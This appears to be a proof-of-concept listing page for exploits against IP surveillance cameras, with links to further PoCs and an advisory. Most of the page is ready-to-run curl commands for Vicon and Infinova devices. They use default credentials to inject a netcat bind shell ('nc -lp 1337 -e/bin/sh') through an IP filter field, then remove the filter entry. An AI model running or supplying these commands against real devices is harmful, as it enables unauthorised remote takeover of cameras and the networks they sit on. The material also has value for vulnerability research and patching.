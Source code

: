 Image here: http://62.43.36.107:50021/Public/CCTV/GWSecu/GWSecu%20Updater%20para%20c%C3%A1maras/Firmware%20para%20c%C3%A1mara%20domo/

non-crashing Format String Backdoor Proof of Concept
---
2017-12-05

https://github.com/mcw0/PoC/blob/master/tiny-w3-mcw.c

Vicon Security RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"
  
// Add to 'IP Filter' and execute

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"
  
// Disable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"
  
// Remove from 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Infinova RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"

// Add to 'IP Filter' and execute

curl --user admin:admin -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

// Disable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"

// Remove from 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Note: Quite sure there is additional OEM's that share same.

Axis Communications
---
2017-12-01
Axis Communications MPQT/PACS Heap Overflow and Information Leakage
https://github.com/mcw0/PoC/blob/master/Axis_Communications_MPQT_PACS_Heap_Overflow_and_information_leakage.txt
